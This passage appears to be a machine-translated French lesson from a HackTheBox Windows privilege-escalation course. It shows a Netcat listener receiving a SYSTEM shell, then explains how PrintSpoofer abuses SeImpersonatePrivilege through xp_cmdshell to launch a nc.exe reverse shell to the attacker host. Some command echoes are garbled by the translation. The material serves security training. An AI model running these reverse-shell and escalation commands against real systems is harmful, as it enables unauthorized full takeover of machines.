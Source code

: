 #### Attraper SYSTEM Shell

Cela se termine avec succès et un shell en tant que `NT AUTHORITY\SYSTEM` est reçu.

Attraper SYSTEM Shell

```
dsgsec@htb[/htb]$ sudo nc -lnvp 8443

écoute sur [tout] 8443 ...
se connecter à [10.10.14.3] depuis (INCONNU) [10.129.43.30] 50332
Microsoft Windows [Version 10.0.14393]
(c) Microsoft Corporation 2016. Tous les droits sont réservés.

C:\Windows\system32>whoami

qui suis je
autorité nt\système

C:\Windows\system32>nom d'hôte

nom d'hôte
WINLPE-SRV01

```

* * * * *

PrintSpoofer et RoguePotato
-------------------------------------

JuicyPotato ne fonctionne pas sur Windows Server 2019 et Windows 10 build 1809 et ultérieur. Cependant, [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) et [RoguePotato](https://github.com/antonioCoco/RoguePotato) peuvent être utilisés pour tirer parti des mêmes privilèges et obtenir `NT AUTHORITY\SYSTEM ` niveau d'accès. Cet [article de blog](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) va en profondeur sur l'outil `PrintSpoofer` , qui peut être utilisé pour abuser des privilèges d'emprunt d'identité sur Windows 10 et Server 2019 hébergeurs où JuicyPotato ne fonctionne plus.

#### Augmentation des privilèges à l'aide de PrintSpoofer

Essayons cela à l'aide de l'outil `PrintSpoofer`. Nous pouvons utiliser l'outil pour générer un processus SYSTEM dans votre console actuelle et interagir avec lui, générer un processus SYSTEM sur un bureau (si connecté localement ou via RDP), ou attraper un reverse shell - ce que nous ferons dans notre exemple. Encore une fois, connectez-vous avec `mssqlclient.py` et utilisez l'outil avec l'argument `-c` pour exécuter une commande. Ici, en utilisant `nc.exe` pour générer un shell inversé (avec un écouteur Netcat en attente sur notre boîte d'attaque sur le port 8443).

Escalade des privilèges à l'aide de PrintSpoofer

```
SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"

sortir

-------------------------------------------------- ------------------------------

[+] Privilège trouvé : SeImpersonatePrivilege

[+] Pipe nommée à l'écoute...

[+] CréerProcessAsUser() OK

NUL

```
